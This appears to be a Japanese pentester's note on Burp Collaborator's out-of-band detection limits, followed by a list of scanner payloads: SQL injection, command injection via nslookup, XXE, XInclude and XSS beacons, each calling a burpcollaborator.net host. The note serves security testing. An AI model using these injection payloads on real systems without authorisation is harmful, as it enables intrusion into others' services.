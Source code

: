 * Active Scan終了後に発生したリクエストは検知できない
 * 定時バッチ処理や、時間のかかるバックグラウンドタスク処理の脆弱性
 * Burp Collaborator以外に、独自の検知システムを持つとよいかも
* Private Burp Collaborator Serverを検討
 * コンソールにDNSクエリが出力されるので役立つかも
* Burp Collaborator clientを併用するとよいかも

***

### all payloads

```xml
97eorjwggs51r5eypvmhoi2olfr8f13sqie7.burpcollaborator.net/docs/Health_n_Stuff.pdf
http://0defxa27mjbsxwkpvms8u98fr6xzlp9gw6kv.burpcollaborator.net/?public/docs/Health_n_Stuff.pdf
(select load_file('\\\\\\\\tif82370rcgl2ppi0fx1z2d8wz2sqjs7ju9iy.burpcollaborator.net\\\\ylf'))
public/docs/Health_n_Stuff.pdf'+(select load_file('\\\\\\\\adrpxk2hmtb2x6kzvwsiuj8prgx9l0oofb5zu.burpcollaborator.net\\\\zem'))+'
public/docs/Health_n_Stuff.pdf|nslookup xjkc3784sghp3tqm1jy506ecx33wrsfj29qy.burpcollaborator.net.&
public/docs/Health_n_Stuff.pdf'"`0&nslookup n2q2mxrub60fmj9ck9hvjwx2gtmmajyal09p.burpcollaborator.net.&`'
public/docs/Health_n_Stuff.pdf&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&`'
<whx xmlns="http://a.b/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://a.b/ http://cuaremjj3vs4e811cy9kblpr8ieb2bq2ds1h.burpcollaborator.net/whx.xsd">whx</whx>
<jqh xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://okc34y9vt7ig4krd2azw1xf3yu4nsogf35ru.burpcollaborator.net/foo"/></jqh>
<!DOCTYPE root PUBLIC "-//B/A/EN" "http://tvs8f3k04ctlfp2idfa1c2q89zfs3qrhe72w.burpcollaborator.net">public/docs/Health_n_Stuff.pdf<root>lbew8</root>
<!DOCTYPE \xA7\xA7\xA7 [<!ENTITY % inzjr SYSTEM "http://6mtl6gbdvpky62tv4s1e3fhl0c65u4iv5lta.burpcollaborator.net">%inzjr; ]>public/docs/Health_n_Stuff.pdf
<qhm xmlns="http://a.b/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://a.b/ http://cr7rbmgj0vp4b8y19y6k8lmr5ibbzbn2asyh.burpcollaborator.net/qhm.xsd">qhm</qhm>
<rrd xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://vkja4592tein4rrk2hz314fay14usvgm3cr1.burpcollaborator.net/foo"/></rrd>
<?xml-stylesheet type="text/xml" href="http://jf2yzt4qo2dbzfm8x5urwsaytpzinkbby1mq.burpcollaborator.net"?>public/docs/Health_n_Stuff.pdf
<!DOCTYPE foo [<!ENTITY xxefee1l SYSTEM "http://wwwbg6l35fuogs3leib4d5rba2gv4psgf63v.burpcollaborator.net"> ]>public/docs/Health_n_Stuff.pdf<root>&xxefee1l;</root>
'"><svg/onload=(new(Image)).src='//9jto3j8gssh135qy1vyh0ieoxf38r0ho8byzn\\56burpcollaborator.net'>
javascript:/*</script><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+((new(Image)).src=([]+/\\/waabu6z3jf8oushlsip4r55bo2uvin9b0yqmf\\.burpcollaborator.net/).replace(/\\\\/g,[]))//'>
```